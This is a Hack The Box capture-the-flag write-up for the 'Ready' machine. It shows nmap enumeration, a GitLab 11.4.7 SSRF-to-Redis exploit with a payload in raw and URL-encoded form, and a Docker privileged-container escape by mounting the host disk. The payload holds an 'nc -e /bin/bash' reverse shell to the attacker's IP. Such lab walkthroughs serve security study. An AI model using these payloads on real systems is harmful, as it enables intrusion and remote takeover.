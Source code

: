 ![](ready_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.220 ready.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready.htb:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

Port 5080 running service nginx http server

Running gitlab instance **Version CE 11.4.7** *get in help section after register with new user*

![](screenshots/running-gitlab.png)

# Foothold

## gitlab 11.4.7 ssrf

Searching for gitlab exploit on exploitDB
```bash
❯ searchsploit gitlab 11.4.7
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)       | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authen | ruby/webapps/49257.py
---------------------------------------------- ---------------------------------
```

* Blog on GitLab 11.4.7 Remote Code Execution from [https://liveoverflow.com/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

*liveoverflow explain in his [blog](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) AWA in youtube [video](https://youtu.be/LrLJuyAdoAg)*

**Verify ssrf**

Using IPv6 address to bypass the filter on localhost.

![](screenshots/gitlab-ssrf.png)

and it worked

![](screenshots/bypass-local.png)

Now exploiting radis with ssrl.

Payload get from [Jobert Abma hacker1 report](https://hackerone.com/reports/299473)
```rb
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.15.71 4141\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

url encoded from [url-encode-decode.com](https://www.url-encode-decode.com/)

```bash
❯ python payload-gen.py #Scripting left on payload generating becaouse for some reason gitlab returning 422 error on every request outside chromium browser.
IP: 10.10.15.71
Port: 4141
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A+multi%0D%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0D%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%5C%27%7Cnc+-e+%2Fbin%2Fbash+10.10.15.71+4141%5C%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0D%0A+exec%0D%0A+exec%0D%0A%2Fssrf.git
```

Intercept "project import" request replace import url with paylad.

![](screenshots/rev_shell.png)

# Privesc

* Inside docker container
```bash
[*] ctn000 Are we in a docker container?................................... yes!
---
... [snip] ...
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

Container's root password floting in `/` root directory but password is not working.

![](screenshots/container-root_pass.png)
<!--YG65407Bjqvv9A0a8Tm_7w-->

Found gitlab config file backup in `/opt/backup/` directory and password.

![](screenshots/gitlab-config.png)

and password work for container root

![](screenshots/container-rooted.png)

Now running [deepce.sh](https://github.com/stealthcopter/deepce) script found Privileged Mode enable.
```bash
[+] Privileged Mode ......... Yes
```

## docker container with privileged

* [Escaping Docker Privileged Containers by Vickie Li](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
* [hacktricks.xyz technique](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag)

**Root-0x1**

Exploit docker Privileged Mode with deepce script
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED -cmd 'hostname' -q
```
![](screenshots/exploit-deepce.png)

**Root-0x2**

The `--privileged` (Privileged Mode) flag allows the container to have access to the host devices. So container root user can mount host.

Privileged Mode allow continer root to run fdisk on host.
```bash
(remote) root@gitlab.example.com:/tmp$ fdisk -l
... [snip] ...

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Host is in `/dev/sda2`

mounting host in the comtainer
```bash
mkdir /tmp/host
mount /dev/sda2 /tmp/host
wc -c /tmp/host/root/root.txt
```

![](screenshots/mount-rooted.png)


finally root shell with deepce script

![](screenshots/root-shell.png)
